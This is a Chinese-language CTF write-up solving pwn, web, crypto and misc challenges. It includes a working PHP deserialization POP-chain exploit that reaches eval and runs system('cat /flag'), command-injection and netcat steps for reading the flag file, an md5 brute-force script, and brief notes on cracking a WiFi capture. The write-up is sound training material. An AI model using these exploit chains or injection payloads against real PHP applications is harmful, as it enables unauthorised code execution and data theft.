









1. [pwn](#pwn)
# pwn
1. 真nc就给flag

    nc pwn.aw31-hack.top 10002

直接nc一下进取，cat/flag.txt就完事了
2. nc就给flag


比较狗，提示stdout is close，那我们输入一个参数

    exec 1>&0

就可以继续获取我们的flag了

# web
1. easy_md5


php的弱比较，找md5前和md5后都是0e开头的，第一个比较是数组不能被md5化

2. php_is_the_best_language

查看源码有提示，传个猴子我是没想到的，套神太强了



绕过第一个比较，数字后面随便加字符就行，绕过第二个写个php就可以找到

```php
<?php 
for ($i=0;$i < 100000;$i++){
 $shell=md5($i);
 if(substr($shell,5,5)=== "dc3ad"){
 echo "$shell<br />";
 echo $i; 
 }
}
?>
```
3. [echo] More than just 🐎?

尝试着，再看传参应该是命令注入，已知cmd[]=传入数组会报错，试着试着就出来了，这题真的迷糊，不知道为啥cat /flag不行，估计后台过滤了



4. 重复几次

太阴了，buu有题，hint提示fl@g和ffffllllaaaagggg被误导了，结果是flag，套神师傅饶了我吧



5. php_serialize_2

一道比较简单的反序列化构造，直接上pop
```php
<?php
class class1{
    public $var1;
    public $var2;
    public function __construct()
    {
        echo "Have Fun!!!";
    }
    public function __wakeup()
    {
        $this->var1->solving();
    }
}
class class2
{
    public $var1;
    public $var2;
    public function solving()
    {
        echo "Solved???";
    }
}
class class3
{
    public $var1;
    public $var2;
    public function solving()
    {
        $this->var2->getFlag();
    }
}
class class4
{
    public $var1='flag{this_is_not_Flag}';
    public $var2;
    public function getFlag()
    {
        echo "flag{".$this->var1."}";
    }
}
class class5
{
    public $var1;
    public $var2;
    public function hackCmd($cmd)
    {
        @eval($cmd);
    }
    public function call()
    {
       $this->hackCmd($this->var1);

    }


}
class class6
{
    public $var1;
    public $var2;
    public function __toString()
    {
        $this->var1->hack();
        return "{this_is_not_Flag}";
    }
}
class class7
{
    public $var1="AWSL";
    public $var2;
    public function __invoke()
    {
        echo "Bite Me".$this->var1;
    }
}
class class8
{
    public $var1;
    public $var2;
    public function hack()
    {
        echo "决胜局～";
        $this->var1->call();
    }
}
if(isset($_GET['a']))
{
    unserialize($_GET['a']);
}
$a=new class1;
$a->var1=new class3;
$a->var1->var2=new class4;
$a->var1->var2->var1=new class6;
$a->var1->var2->var1->var1=new class8;
$a->var1->var2->var1->var1->var1=new class5;
$a->var1->var2->var1->var1->var1->var1="system('cat /flag');";
echo urlencode(serialize($a));
?>
```


感动，人生第一次做出来ctf比赛的反序列化

# Crypto
1. 凯撒加入了北约
看到那么多新生都做出来，亚历山大，看了半天才试出来，先把首字母截取

```python
s='Charlie Hotel Alfa Romeo Lima India Echo Alfa Lima Foxtrot Alfa Echo Charlie Hotel Oscar Sierra India Echo Romeo Romeo Alfa Alfa Lima Foxtrot Alfa Romeo Oscar Mike Echo Oscar India November Delta India Alfa November Oscar Victor Echo Mike Bravo Echo Romeo November Oscar Victor Echo Mike Bravo Echo Romeo Alfa Lima Foxtrot Alfa Tango Alfa November Golf Oscar Oscar Sierra Charlie Alfa Romeo'
for i in s:
    if ord(i)>64 and ord(i) < 91:
        print(i,end="")
```

得到

CHARLIEALFAECHOSIERRAALFAROMEOINDIANOVEMBERNOVEMBERALFATANGOOSCAR

然后全都转换成小写，再认识一下单词，英语不太好，再把所有单词首字母提出来就是flag了

# misc
1. Unicode

太阴了，还有隐藏字符，，，，，直接unidecode两次



2. lsb

,查看颜色通道，有个通道上面有牙啃得东西，送分题



3. peekaboo

首先是密码暴力破解，六位数密码，破解出来后是个world，无法打开，binwalk分离一下，成功获取flag

4. re

根据题目，先re，然后直接转换图片flag就出来了

5. 破解WIFI密码

破解这个.cap



获得密码admin123

6. miku

有点类似祥云杯的一道misc，emmm想了好久

gif先分离，发现只有两种图片，第一直觉是二进制，然后先尝试转换了一下二进制，想了半天应该不是ascii，也不是ascii加凯撒，最终发现729可以开方，这就好办了，直接弄成二维码，果然就是二维码

